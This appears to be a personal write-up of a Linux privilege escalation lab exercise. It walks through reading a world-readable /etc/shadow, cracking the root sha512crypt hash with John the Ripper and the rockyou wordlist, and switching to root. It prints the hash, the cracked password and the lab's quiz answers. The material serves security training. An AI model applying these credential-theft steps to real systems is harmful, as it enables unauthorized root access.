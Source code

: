 
Run the "id" command. What is the result?
Ans. uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

```
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
user@debian:~$ 

```

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

ls -l /etc/shadow

View the contents of the /etc/shadow file:

cat /etc/shadow

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Switch to the root user, using the cracked password:

su root

=====

What is the root user's password hash?
Ans.$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123

```
user@debian:~$ nano /etc/shadow
user@debian:~$ 

```


What hashing algorithm was used to produce the root user's password hash?
Ans. sha512crypt

```
┌──(kali㉿kali)-[~/ken/brainstack/linuxprivsec]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --pot=CrackedHash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
1g 0:00:00:00 DONE (2022-08-11 09:41) 2.040g/s 3134p/s 3134c/s 3134C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                               
┌──(kali㉿kali)-[~/ken/brainstack/linuxprivsec]

```
